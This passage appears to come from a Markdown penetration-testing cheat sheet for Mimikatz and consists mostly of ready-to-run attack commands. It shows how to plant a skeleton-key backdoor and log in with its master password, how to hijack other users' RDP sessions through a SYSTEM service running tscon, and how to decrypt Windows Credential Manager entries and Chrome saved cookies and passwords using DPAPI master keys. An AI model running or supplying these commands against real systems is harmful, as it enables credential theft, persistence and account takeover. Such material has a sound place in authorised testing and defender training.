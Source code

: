 ```powershell
privilege::debug
misc::skeleton
# map the share
net use p: \\WIN-PTELU2U07KG\admin$ /user:john mimikatz
# login as someone
rdesktop 10.0.0.2:3389 -u test -p mimikatz -d pentestlab
```

## Mimikatz - RDP session takeover

Use `ts::multirdp` to patch the RDP service to allow more than two users.

Run tscon.exe as the SYSTEM user, you can connect to any session without a password.

```powershell
privilege::debug 
token::elevate 
ts::remote /id:2 
```

```powershell
# get the Session ID you want to hijack
query user
create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#55"
net start sesshijack
```


## Mimikatz - Credential Manager & DPAPI

```powershell
# check the folder to find credentials
dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

# check the file with mimikatz
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0

# find master key
$ mimikatz !sekurlsa::dpapi

# use master key
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b
```

### Chrome Cookies & Credential

```powershell
# Saved Cookies
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
dpapi::chrome /in:"C:\Users\kbell\AppData\Local\Google\Chrome\User Data\Default\Cookies" /masterkey:9a6f199e3d2e698ce78fdeeefadc85c527c43b4e3c5518c54e95718842829b12912567ca0713c4bd0cf74743c81c1d32bbf10020c9d72d58c99e731814e4155b

# Saved Credential in Chrome
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```
